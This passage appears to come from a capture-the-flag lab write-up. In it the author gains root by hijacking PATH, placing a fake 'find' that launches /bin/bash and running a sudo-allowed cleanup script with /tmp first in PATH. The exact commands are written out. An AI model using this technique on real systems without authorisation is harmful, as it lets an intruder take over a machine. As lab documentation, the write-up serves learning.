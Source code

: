 <img width="305" alt="image" src="https://user-images.githubusercontent.com/114961392/201790245-133359a7-3e36-42d5-8022-74866bb695d3.png">

Unfortunately it failed. I went back to do a bit more research and found that I should do the same thing with the **find** file as well in case **cd** fails.  
**echo "/bin/bash" > find  
chmod 777 find
sudo PATH=/tmp:$PATH /opt/cleanup.sh**  

<img width="305" alt="image" src="https://user-images.githubusercontent.com/114961392/201790524-f58d7ea0-5503-44c3-b7b7-40a23425908f.png">

WOOSHKAH! It worked. From here we can go ahead and capture root flag.
